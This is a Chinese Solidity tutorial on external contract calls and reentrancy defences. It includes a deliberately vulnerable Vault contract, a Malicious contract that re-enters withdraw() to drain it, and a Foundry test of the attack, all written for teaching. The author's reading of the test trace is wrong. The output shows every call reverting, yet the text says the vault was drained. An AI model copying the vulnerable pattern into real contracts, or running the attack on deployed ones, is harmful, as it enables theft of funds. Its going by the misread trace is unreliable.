

## 一、外部调用的三种方式

### 1. 通过接口类型调用（推荐）

最常见、最安全的调用方式。编译期校验、类型安全。

```solidity
interface ICounter {
    function increment() external;
}

function callOther(address counter) external {
    ICounter(counter).increment();
}
```

* 类型安全
* 编译期可校验
* 更省 Gas，调试友好

### 2. 使用低级 `.call` 方法

适用于 ABI 不确定的目标合约，但风险更高，不推荐常用。

```solidity
(bool success, bytes memory data) = counter.call(
    abi.encodeWithSignature("increment()")
);
require(success, "Call failed");
```

* 任意函数调用，但不安全
* 不会报错即使函数不存在
* 返回值需要手动解析

### 3. `delegatecall` 和 `staticcall`


* `delegatecall` 使用当前合约的存储，常用于库合约调用
* `staticcall` 是只读调用，无法修改状态

```solidity
(bool success, ) = lib.delegatecall(abi.encodeWithSignature("doSomething()"));
```

---

## 二、外部调用的典型风险

| 风险类型            | 描述                                                      |
| :------------------ | :-------------------------------------------------------- |
| 重入攻击 Reentrancy | 外部合约在 `call` 过程中回调你本合约的函数造成状态被篡改  |
| 状态未及时更新      | 若先调用外部合约、再更新状态，可能导致逻辑被重复利用      |
| Gas 限制与失败      | 被调用者消耗过多 gas 导致交易失败                         |
| `.call` 返回值伪造  | `.call` 即使失败也可能返回 `success = true`，掩盖真实失败 |

---

## 三、安全编程模式

### Checks-Effects-Interactions 模式

先检查、再更新状态、最后外部调用，避免重入风险：

```solidity
function withdraw() external {
    uint amount = balances[msg.sender];
    require(amount > 0, "Zero balance");

    balances[msg.sender] = 0;

    (bool success, ) = msg.sender.call{value: amount}("");
    require(success, "Transfer failed");
}
```

---

### 使用 `ReentrancyGuard`

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract Vault is ReentrancyGuard {
    function withdraw() external nonReentrant {
        // 内部状态更新
    }
}
```

---

### 限制外部调用方式

* 禁用 fallback 接收复杂逻辑
* 限制 `.call` 传入地址或函数签名的来源
* 接口优先，避免裸调用

---

## 四、实战演练

还是以 `Counter.sol` 合约为例，我们设计以下结构：

* `Counter.sol`：被调用合约，提供 `increment` 方法。
* `Caller.sol`：发起调用者，分别以接口和低级 `.call` 调用 `Counter`。
* `Interaction.t.sol`：测试合约，验证两种调用方式。
* （进阶）攻击合约 `Malicious.sol`：用于模拟重入攻击。

### 1. 初始化项目

```bash
$ forge init counter
$ cd counter
```

### 2. 编写合约

**src/Counter.sol**：

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Counter {
    uint256 public count;

    event Incremented(uint256 newValue);

    function increment() external {
        count++;
        emit Incremented(count);
    }
}
```

**src/Caller.sol**：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICounter {
    function increment() external;
}

contract Caller {
    // 安全方式：通过接口调用
    function callSafe(address counter) public {
        ICounter(counter).increment();
    }

    // 不安全方式：低级调用
    function callUnsafe(address counter) public {
        (bool success, ) = counter.call(
            abi.encodeWithSignature("increment()")
        );
        require(success, "Low-level call failed");
    }
}
```

### 3. 编写测试用例  

**test/Interaction.t.sol**：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Counter.sol";
import "../src/Caller.sol";

contract InteractionTest is Test {
    Counter counter;
    Caller caller;

    function setUp() public {
        counter = new Counter();
        caller = new Caller();
    }

    function testCallSafe() public {
        caller.callSafe(address(counter));
        assertEq(counter.count(), 1);
    }

    function testCallUnsafe() public {
        caller.callUnsafe(address(counter));
        assertEq(counter.count(), 1);
    }

    function testCallInvalidSignature() public {
        // 模拟 .call 调用不存在函数
        (bool success, ) = address(counter).call(
            abi.encodeWithSignature("nonexistent()")
        );
        assertFalse(success, "Call to nonexistent should fail");
    }
}
```  

执行测试：  

```bash
$ forge test -vv
```



### 4. 模拟重入攻击

我们扩展场景，设计一个提款合约与攻击合约，演示如何在未做防御的情况下被重入。

**src/Vault.sol**：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "Zero balance");

        // ❌ 状态修改放后，导致可重入
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        balances[msg.sender] = 0;
    }

    receive() external payable {}
}
```

**src/Malicious.sol**：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IVault {
    function deposit() external payable;
    function withdraw() external;
}

contract Malicious {
    IVault public vault;
    uint256 public reentryCount;

    constructor(address _vault) {
        vault = IVault(_vault);
    }

    function attack() external payable {
        vault.deposit{value: msg.value}();
        vault.withdraw();
    }

    receive() external payable {
        reentryCount++;
        if (reentryCount < 3) {
            vault.withdraw();
        }
    }
}
```  

**重入攻击测试：test/Reentrancy.t.sol**:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Vault.sol";
import "../src/Malicious.sol";

contract ReentrancyTest is Test {
    Vault public vault;
    Malicious public attacker;

    function setUp() public {
        vault = new Vault();
        attacker = new Malicious(address(vault));

        // 先给 Vault 存 1 ether
        vm.deal(address(this), 2 ether);
        vault.deposit{value: 1 ether}();

        // 给 attacker 合约 1 ether
        vm.deal(address(attacker), 1 ether);
    }

    function testAttack() public {
        vm.startPrank(address(attacker));
        attacker.attack{value: 1 ether}();
        vm.stopPrank();

        assertEq(address(vault).balance, 0, "Vault should be drained");
        assertGt(address(attacker).balance, 1 ether, "Attacker profit expected");
    }
}
```  

执行结果：  

```bash
$ forge test --match-path test/Reentrancy.t.sol -vvv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/Reentrancy.t.sol:ReentrancyTest
[FAIL: Transfer failed] testAttack() (gas: 97251)
Traces:
  [97251] ReentrancyTest::testAttack()
    ├─ [0] VM::startPrank(Malicious: [0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   └─ ← [Return]
    ├─ [82170] Malicious::attack{value: 1000000000000000000}()
    │   ├─ [22537] Vault::deposit{value: 1000000000000000000}()
    │   │   └─ ← [Stop]
    │   ├─ [47366] Vault::withdraw()
    │   │   ├─ [39527] Malicious::receive{value: 1000000000000000000}()
    │   │   │   ├─ [16606] Vault::withdraw()
    │   │   │   │   ├─ [8767] Malicious::receive{value: 1000000000000000000}()
    │   │   │   │   │   ├─ [7746] Vault::withdraw()
    │   │   │   │   │   │   ├─ [0] Malicious::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   └─ ← [OutOfFunds] EvmError: OutOfFunds
    │   │   │   │   │   │   └─ ← [Revert] Transfer failed
    │   │   │   │   │   └─ ← [Revert] Transfer failed
    │   │   │   │   └─ ← [Revert] Transfer failed
    │   │   │   └─ ← [Revert] Transfer failed
    │   │   └─ ← [Revert] Transfer failed
    │   └─ ← [Revert] Transfer failed
    └─ ← [Revert] Transfer failed

Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 5.19ms (353.92µs CPU time)

Ran 1 test suite in 189.23ms (5.19ms CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/Reentrancy.t.sol:ReentrancyTest
[FAIL: Transfer failed] testAttack() (gas: 97251)

Encountered a total of 1 failing tests, 0 tests succeeded
```

上面的测试结果正是**我们期望的「重入攻击成功触发并导致合约资金耗尽」场景，这是这类漏洞利用中的关键现象 —— 但我们的测试 case 失败的原因，是预期的 Transfer 成功变为了失败**。这其实是由于 `Vault` 中资金已经被反复提取后，触发了 `call` 转账失败导致的 `revert`。

### 5. 使用 ReentrancyGuard 防止重入

**src/VaultSafe.sol**:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";

contract Vault is ReentrancyGuard {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public nonReentrant {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "Zero balance");

        balances[msg.sender] = 0; // ✅ 状态更新在前

        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
    }

    receive() external payable {}
}
```

```bash
# 安装依赖包
$ forge install openzeppelin/openzeppelin-contracts
```

## 五、小结：合约调用策略对比

| 调用方式        | 安全性 | 优点               | 风险                     |
| :-------------- | :----- | :----------------- | :----------------------- |
| 接口调用        | ✅ 高   | 编译期校验，gas 低 | 必须明确目标 ABI         |
| `.call` 调用    | ⚠️ 中   | 动态适配任意合约   | 可绕过类型检查，误判成功 |
| delegatecall    | ⚠️ 中   | 插件式、存储复用   | 容易破坏 storage layout  |
| ReentrancyGuard | ✅ 高   | 防重入，简单实用   | 引入依赖库               |

---

## 下一课预告

📘 **第 6 课：Solidity 数据结构与存储布局**
memory、storage、calldata 傻傻分不清？下一课将全面解析存储语义与成本差异。

---

<div align="center">
  
</div>

> 声明：本作品采用[署名-非商业性使用-相同方式共享 4.0 国际 (CC BY-NC-SA 4.0)](https://creativecommons.org/licenses/by-nc-sa/4.0/deed.zh)进行许可，使用时请注明出处。  
> Author: [mengbin](mengbin1992@outlook.com)  
> blog: [mengbin](https://mengbin.top)  
> Github: [mengbin92](https://mengbin92.github.io/)  
> 腾讯云开发者社区：[孟斯特](https://cloud.tencent.com/developer/user/6649301)  
---